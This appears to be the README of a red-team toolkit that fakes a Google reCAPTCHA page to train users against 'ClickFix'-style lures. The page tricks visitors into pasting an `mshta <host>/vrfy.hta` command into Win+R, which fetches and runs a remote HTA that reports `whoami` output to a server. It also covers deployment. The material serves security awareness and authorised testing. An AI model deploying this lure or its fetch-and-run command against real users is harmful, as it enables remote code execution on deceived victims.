# CAPTCHA Phishing Simulation - Technical Overview

This project simulates a CAPTCHA verification process for controlled phishing/security awareness training exercises. It mimics a familiar Google reCAPTCHA interface and walks the user through a short client-side action, allowing backend confirmation that the user followed instructions and executed a local payload.

<p align="center">
  <img src="https://github.com/user-attachments/assets/a336559b-cdd9-4067-8b28-61bde53e6370" alt="CAPTCHA Simulation Screenshot" width="480" />
</p>

## Components

### 1. `index.html`

A stylised web page that imitates Google reCAPTCHA.

* When the user clicks the "I'm not a robot" checkbox, a pseudo-verification process starts.
* The user is prompted to press Windows + R, paste a copied command (`mshta`), and hit Enter.
* This command opens an `.hta` file with embedded JScript.
* A polling mechanism checks with the server every 2 seconds to see if the `.hta` file has successfully reported in.
* The final redirect URL (triggered once verification is confirmed) can be modified in `index.html` as required for your campaign scenario.

### 2. `vrfy.hta`

Executed via `mshta`, this file:

* Extracts the `vid` (verification ID) from the query string.
* Runs `whoami` locally via ActiveX (`WScript.Shell`).
* Sends the username and verification code to the server via an HTTP GET request (to `router.php`).

> ⚠️ This `.hta` file is a proof-of-concept. It can be modified to perform arbitrary code execution, such as launching beacons, downloading payloads, or installing malware. The author provides this code strictly for educational and authorised red team purposes and is **not responsible** for any misuse.

### 3. `verify.php`

Polled continuously by the CAPTCHA page. It checks:

* Whether a file named `verifications/{vid}.txt` exists.
* If found, returns HTTP 200 OK (triggering the green "Verification Complete" status and unlocking the button).

### 4. `router.php`

Handles the incoming GET request from `vrfy.hta`:

* Validates the presence of `vid` and `user` in the request.
* Writes the `vid` and associated user string to `verifications/{vid}.txt`.
* Returns HTTP 200 OK on success.

## Flow Summary

1. User opens `index.html`.
2. User clicks checkbox → JavaScript generates a `vid`, copies `mshta <host>/vrfy.hta?vid=<vid>` to clipboard.
3. User runs it → `.hta` executes `whoami`, submits it to `router.php`.
4. `router.php` saves output to `verifications/<vid>.txt`.
5. `verify.php` is polled → returns 200 OK once that file exists.
6. Button becomes clickable → simulated verification complete.

## Use Cases

* Security awareness training
* Social engineering simulation
* Red team exercises

## Important Notes

* The system does not perform any malicious action by default. It only reads `whoami` and confirms the user ran the `.hta`.
* The `.hta` script can be extended to perform malicious behaviour if misused — the author **disclaims all liability** for such use.
* Ensure users are informed this is a controlled, authorised simulation.
* Hosting this publicly or obfuscating intent may breach acceptable use policies.

## Deployment

* Place all files on a web server with PHP support.
* Ensure the `verifications/` directory is writable by the web server.
* Test locally before deployment to ensure clipboard copy, HTA execution, and polling all work as expected.

## Legal Warning

This tool is intended strictly for use in **authorised environments** for testing or awareness. Use against unsuspecting or unauthorised users is unethical and may be illegal.
